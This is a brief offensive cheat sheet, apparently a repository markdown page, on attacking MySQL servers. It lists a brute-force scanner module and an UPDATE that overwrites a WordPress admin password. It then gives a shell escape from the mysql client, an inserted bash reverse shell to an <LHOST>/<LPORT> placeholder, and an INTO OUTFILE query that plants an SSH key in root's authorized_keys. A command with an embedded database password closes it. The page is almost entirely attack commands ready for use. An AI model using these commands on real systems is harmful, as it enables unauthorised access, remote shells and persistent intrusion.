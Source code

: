 # Brute Force
```
scanner/mysql/mysql_login
```

# List data from table
```
show database;
select * from <table>;
```

# Change data within a table
```
UPDATE <table> SET <column> = <new value> WHERE <relative column> = <relative column value>;

ex:
UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';
```

# Drop a shell
```
mysql> \! /bin/sh
```

# Insert code to execute
```
mysql> insert into users (id, email) values (<LPORT>, "- E $(bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1')");
```

# Write SSH key into a table
```
mysql> SELECT "<KEY>" INTO OUTFILE '/root/.ssh/authorized_keys2' FIELDS TERMINATED BY '' OPTIONALLY ENCLOSED BY '' LINES TERMINATED BY '\n';
```

# Executing commands
```
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal; select * from users;'
```

